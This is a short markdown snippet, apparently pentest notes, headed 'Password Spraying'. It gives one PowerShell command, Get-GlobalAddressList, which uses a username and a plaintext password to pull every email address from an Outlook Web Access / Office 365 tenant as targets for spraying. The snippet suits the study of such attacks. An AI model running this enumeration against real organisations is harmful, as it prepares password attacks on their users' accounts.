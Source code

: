 # Password Spraying
By connecting to Outlook Web Access Portal and utilizing the FindPeople method, it is able to gather the list of all email addresses:
```
Get-GlobalAddressList -ExchHostname outlook.office365.com -UserName thureinsoe@insomnia.com -Password 123456%*@aA -OutFile global-address-list.txt

```
